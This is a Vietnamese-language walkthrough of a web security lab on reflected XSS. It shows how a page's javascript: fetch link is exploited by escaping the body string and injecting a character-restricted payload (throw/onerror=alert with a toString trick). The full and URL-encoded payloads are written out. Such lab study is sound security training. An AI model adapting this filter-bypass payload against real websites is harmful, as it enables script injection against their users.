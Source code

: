 ![image](../img/18.1.png)

#### một lab khá hay về khai thác reflected xss
như tên lab thì nó đã block 1 số kí tự, lab này còn không có feature search, chỉ có phần comment, mình thử Store,DOM mình check source có vẻ không có

![image](../img/18.2.png)


view qua source trong 1 bài post bất kì mình bị đập vào mắt dòng 114 có chứa javascript
```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d4'}).finally(_ => window.location = '/')">Back to Blog</a>
```

fetch sẽ gọi API khi nhấn Back to Blog, quan sát url mình thấy nó giống hệt phần body trong fetch

câu hỏi: nếu mình inject payloa thì phần body nó có change không ?

có nhé ae, thử đi thì biết =)), từ đó mình nhận ra nó tồn tại unstrust data đi vào fetch

mình sẽ thoát khỏi thằng body bằng cách sử dụng `&'`
và phần tiếp theo sẽ là payload để exploit 

mình sẽ sử dụng `x=y=>{throw/**/error=alert,1337}`

func x sẽ nhận tham số y với thân hàm là phần throw

`/**/` có tác dụng comment chức năng tương tự như khoảng trắng để bypass sec của web

sau đó mình chuyển x sang chuỗi, gọi window để kích hoạt nó

`toString()=x, window+'',{x:'khiem`

lưu ý: ae chú ý tới code gốc của web để injec payload không sai syntax, ae hình dung như sqli nhưng không có comment ấy :v 

payload đầy đủ:
```
&'},x=y=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'khiem
```
payload sau khi inject được encode như sau
```
 <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27khiem'}).finally(_ => window.location = '/')">Back to Blog</a>
```






